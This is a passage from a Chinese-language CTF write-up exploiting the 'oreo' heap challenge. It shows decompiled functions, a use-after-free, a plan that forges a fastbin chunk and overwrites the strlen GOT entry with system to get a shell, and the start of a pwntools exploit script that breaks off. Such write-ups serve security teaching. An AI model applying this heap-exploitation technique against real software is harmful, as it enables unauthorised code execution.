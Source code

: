 ```c
    }
    return;
}
```

这里我们可以看到这个函数会free链表上所有的rifles结构，但是没有设置为NULL。

4. leave message

```c
void leave_message(void)
{
    int32_t iVar1;
    int32_t in_GS_OFFSET;
    int32_t var_ch;
    
    iVar1 = *(int32_t *)(in_GS_OFFSET + 0x14);
    sym.imp.printf("Enter any notice you\'d like to submit with your order: ");
    sym.imp.fgets(_message, 0x80, _section..bss);
    add_End(_message);
    if (iVar1 != *(int32_t *)(in_GS_OFFSET + 0x14)) {
    // WARNING: Subroutine does not return
        sym.imp.__stack_chk_fail();
    }
    return;
}
```
这里会向*message(0x804a2a8 -> 0x804a2c0)这里写入一段内容,因此我们可以想办法控制message所存储的指针来实现任意写的效果。



#### 利用思路

1. 首先，我们可以覆盖node -> prev，把printf的got地址写入该字段，然后通过show_rifles函数泄漏printf的实际地址。



2. - 我们可以在0x804a2a0处伪造一个chunk，由于一个rifle的大小为0x38，因此我们选择伪造size为0x41的fastbin chunk。这时我们发现0x804a2a4即rifles_count，这个值正好是chunk的size字段，因此我们可以在free这个chunk之前 add 0x41个rifles就可以控制其大小。
   - 但是这里还有一点需要注意，我们还需要修改下一个物理相邻chunk的size，我们算了一下偏移，0x804a2a0 + 0x40 = 0x804a2e0,这个地方就是next_chunk的size字段，我们可以通过leave_message()来覆盖这个字段，*message即0x804a2c0这里写入一段信息，我们计算一下偏移0x804a2e0 - 0x804a2c0 = 0x20 == 32. 再加上4个字节覆盖掉prev_size,因此一共输入36个字节的padding就能到达size字段。所以paload = '\x00' * 36 + p32(0x41)
   - 这里之所以用\x00做padding是因为要把fake_chunk的prev设成null，否则free之后会出错。

3.  最后，我们就重新分配rifle，获得刚刚伪造的chunk，然后覆盖message指针的地址，将其设置为strlen()函数的got地址，然后leave_message()用system()覆盖got表,即可getshell。

到这里思路已经十分明确了，payload如下：

```python
#!  /usr/bin/env    python2
from pwn import *

sh = process("./oreo")
elf = ELF("./oreo")
libc = ELF("./libc.so.6")

context.log_level = "debug"

# address
printf_got = elf.got['printf']
log.info("printf_got -> " + hex(printf_got))
printf_libc = libc.symbols['printf']
log.info("printf_libc -> " + hex(printf_libc))
system_libc = libc.symbols['system']
log.info("system_libc -> " + hex(system_libc))
message_addr = 0x0804a2a8
log.info("message_addr -> " + hex(message_addr))
strlen_got = elf.got['strlen']
```